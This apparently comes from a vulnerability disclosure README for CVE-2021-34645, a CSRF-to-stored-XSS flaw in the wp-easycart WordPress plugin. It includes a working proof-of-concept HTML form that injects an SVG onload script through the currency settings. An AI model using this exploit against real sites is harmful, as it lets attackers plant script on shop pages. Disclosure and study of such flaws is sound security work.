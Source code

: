 <h2>CVE-2021-34645</h2>

The Shopping Cart & eCommerce Store WordPress plugin is vulnerable to Cross-Site Request Forgery via the save_currency_settings function found in the ~/admin/inc/wp_easycart_admin_initial_setup.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 5.1.0.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/wp-easycart/trunk/admin/inc/wp_easycart_admin_initial_setup.php?rev=2463792#L240`
`https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34645`

POC:<br>
`				<html>
					<body>
					<form action="http://ip:port/wp-admin/admin-ajax.php" method="POST">
						<input type="hidden" name="action" value="ec_admin_ajax_save_currency_options" />
						<input type="hidden" name="ec_option_base_currency" value="USD&quot;><svg/onload=alert(/xss/)>" />
						<input type="hidden" name="ec_option_show_currency_code" value="0" />
						<input type="hidden" name="ec_option_currency" value="$" />
						<input type="hidden" name="ec_option_currency_symbol_location" value="1" />
						<input type="hidden" name="ec_option_currency_negative_location" value="1" />
						<input type="hidden" name="ec_option_currency_decimal_symbol" value="." />
						<input type="hidden" name="ec_option_currency_decimal_places" value="2" />
						<input type="hidden" name="ec_option_currency_thousands_seperator" value="," />
						<input type="hidden" name="ec_option_exchange_rates" value="EUR=.73,GBP=.6,JPY=101.9" />
						<input type="submit" value="Submit request" />
					</form>
					</body>
				</html>`

